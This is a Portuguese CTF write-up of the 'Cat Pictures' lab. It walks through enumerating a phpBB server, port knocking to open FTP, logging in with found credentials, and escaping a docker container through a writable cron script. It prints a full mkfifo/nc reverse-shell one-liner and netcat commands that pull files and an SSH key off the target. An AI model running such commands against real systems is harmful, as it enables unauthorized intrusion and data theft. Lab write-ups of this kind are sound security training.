# _**Cat pictures CTF**_


## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -Pn [ip_address]
> ```


Temos um website na porta 8080  
Vamos realizar um scan com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address]:8080 -w ../seclists/Discovery/Web-Content/common.txt
> ```


Temos diversos diretórios que pdemos tentar acessar, mas ao tentar, a maioria retorna como _forbidden_
Sabemos que o website é _powered by phpBB_  
Alterando o endereço, conseguimos encontrar sua versão com: http://[ip_address]:8080/docs/changelog.html  
Mesmo com _docs_ dando _forbidden_, ainda conseguimos acessar _changelog.html_ e sua versão: 3.3.x  
Para sabermos a versão exata, vamos executar o comando ```curl```  
> ```bash
> curl http://[ip_address]:8080/docs/CHANGELOG.html | grep -i "phpBB 3.3"
> ```

E temos sua versão: 3.3.0  
Pesquisando com o auxílio do GPT, temos algumas falhas das quais podemos explorar:
* **XSS**: CVE-2020-10580
* **Open Redirect**: CVE-2020-10581
* **CSRF/Config leak**: CVE-2020-8228

## _**Ganhando acesso**_

Após algum tempo tentanto cada uma, não obtive nenhum resultado  
Vamos continuar  
Investigando mais o site, uma peculiaridade  



Pesquisando um pouco, encontra-se uma técnica conhecida como _**port knocking**_  
É é uma técnica usada para “esconder” portas de serviços, de forma que elas só abram depois que uma sequência secreta de conexões em portas específicas for feita  
E existe uma ferramenta para realizar tal tarefa: <mark>knockd</mark>  
> ```bash
> knock [ip_address] [port1], [port2], ..., [portN]
> ```

Realizando novamente um scan com **Nmap**, temos resultado!  
A porta 21 - FTP está aberta  



Realizamos login via FTP e então pegamos o arquivo que está lá



Parece que temos um usuário e login:
* **usuário:** catlover
* **senha:** sardinethecat

Vamos utilizar a ferramenta ```netcat``` para fazer login na porta 4420  
> ```
> nc [ip_address] [port]
> ```


Após o login, precisamos melhorar essa nossa _shell_  
Vamos primeiro ligar nosso ```nc``` na porta 4444  
Em seguida, executamos o comando abaixo
> ```bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [port] [port] >/tmp/f
> ```


Conseguimos uma _shell_ melhor  
E para deixar ainda mais prático, vamos executar o comando: ```/bin/bash -i```  
Continuando nossa investigação, temos um arquivo _**runme**_ no diretório do usuário, mas não podemos executá-lo  
Vamos tentar puxar ele para a nossa máquina  
> ```bash
> nc -lp [port] > runme
> ```
> ```bash
> nc -w 3 [ip_adderss] [port] < /home/catlover/runme
> ```


Tentando executar o arquivo na nossa máquina, é necessário senha  
Tentamos a qual nos foi fornecida e nada  
Vamos tentar outros meios  
Primeiro, ```strings```  

No retorno, temos uma chave SSH e também um usuário  
Executamos o arquivo e inserimos a senha descoberta anteriormente com o comando ```strings```  
Parece que é gerado uma chave _id_rsa_  

Vamos executar na máquina-alvo  
Primeiro, executamos novamente o arquivo _runme_  
Em seguida, verificamos se a chave foi gerada em _/home/catlover/_  
Por último, transferimos para nosso computador via ```netcat``` a chave e tentamos fazer login via SSH, dando as permissões necessárias
> ```bash
> ssh -i id_rsa catlover@[ip_address]
> ```


Temos logina via SSH!  

## _**Escalando privilégios**_
Apesar de termos conseguido a primeira flag, parece que estamos dentro de um _docker_  

 

Vamos tentar escapar  
Primeiro, verificamos o arquivo _bash_history_  



Parece que o arquivo _/opt/clean/clean.sh_ faz parte do _cronjob_ e é executado  
Vamos alterar este arquivo para conseguirmos um verdadeiro _shell_  

  

Basta aguardar pela conexão e então, adquirir a última flag!
